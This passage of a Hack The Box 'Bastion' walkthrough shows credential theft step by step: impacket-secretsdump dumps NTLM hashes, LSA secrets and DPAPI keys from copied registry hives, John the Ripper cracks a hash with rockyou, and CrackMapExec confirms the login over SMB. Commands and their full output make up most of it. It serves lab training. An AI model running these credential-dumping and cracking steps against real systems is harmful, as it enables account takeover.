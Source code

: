 ### Dumping User Hashes From SAM Hive

Since we have unrestricted access to the underlying system, we can dump the local user's NTLM password hashes from the SAM registry hive using impacket's `secretsdump.py`.

```bash
$ cd /root/HTB/bastion/loot/fs/Windows/System32/config
$ impacket-secretsdump -sam SAM -system SYSTEM -security SECURITY local
Impacket v0.9.23.dev1+20210127.141011.3673c588 - Copyright 2020 SecureAuth Corporation

[*] Target system bootKey: 0x8b56b2cb5033d8e2e289c26f8939a25f
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
L4mpje:1000:aad3b435b51404eeaad3b435b51404ee:26112010952d963c8dc4217daec986d9:::
[*] Dumping cached domain logon information (domain/username:hash)
[*] Dumping LSA Secrets
[*] DefaultPassword
(Unknown User):bureaulampje
[*] DPAPI_SYSTEM
dpapi_machinekey:0x32764bdcb45f472159af59f1dc287fd1920016a6
dpapi_userkey:0xd2e02883757da99914e3138496705b223e9d03dd
[*] Cleaning up...
```

`secretsdump.py` actually found a password 'bureaulampje', but we don't know what it belongs to. Lets throw these hashes into JtR to see if it was able to get anything from them.

```bash
$ john --wordlist=/usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt hashes.txt --format=NT
Using default input encoding: UTF-8
Loaded 2 password hashes with no different salts (NT [MD4 512/512 AVX512BW 16x3])
Remaining 1 password hash
Warning: no OpenMP support for this hash type, consider --fork=3
Press 'q' or Ctrl-C to abort, almost any other key for status
bureaulampje     (L4mpje)
1g 0:00:00:00 DONE (2021-06-01 16:58) 1.408g/s 13233Kp/s 13233Kc/s 13233KC/s burg7448..burcu.13
Warning: passwords printed above might not be all those cracked
Use the "--show --format=NT" options to display all of the cracked passwords reliably
Session completed
```

### Validating The Password

So it seems like the password that `secretsdump.py` found was actually the password for the 'L4mpje' user. We can quickly confirm this using any number of tools, but I'm going to use my favorite windows exploitation swiss army knife, [CrackMapExec][cme].

```bash
$ cme smb 10.10.10.134 -u 'L4mpje' -p 'bureaulampje'
SMB         10.10.10.134    445    BASTION          [*] Windows Server 2016 Standard 14393 x64 (name:BASTION) (domain:Bastion) (signing:False) (SMBv1:True)
SMB         10.10.10.134    445    BASTION          [+] Bastion\L4mpje:bureaulampje
```


[htb-list]: https://docs.google.com/spreadsheets/d/1dwSMIAPIam0PuRBkCiDI88pU3yzrqqHkDtBngUHNCw8/edit#gid=1839402159
[autorecon]: https://github.com/Tib3rius/AutoRecon
[bad-keys]: https://github.com/rapid7/ssh-badkeys
[linpeas]: https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite
[tty-shell]: https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#spawn-tty-shell
[smbmap]: https://github.com/ShawnDEvans/smbmap
[cpass]: https://adsecurity.org/?p=2288
[Bloodhound]: https://github.com/BloodHoundAD/BloodHound
[Bloodhound.py]: https://github.com/fox-it/BloodHound.py
[cme]: https://github.com/byt3bl33d3r/CrackMapExec
[mremoteng-decrypt]: https://github.com/kmahyyg/mremoteng-decrypt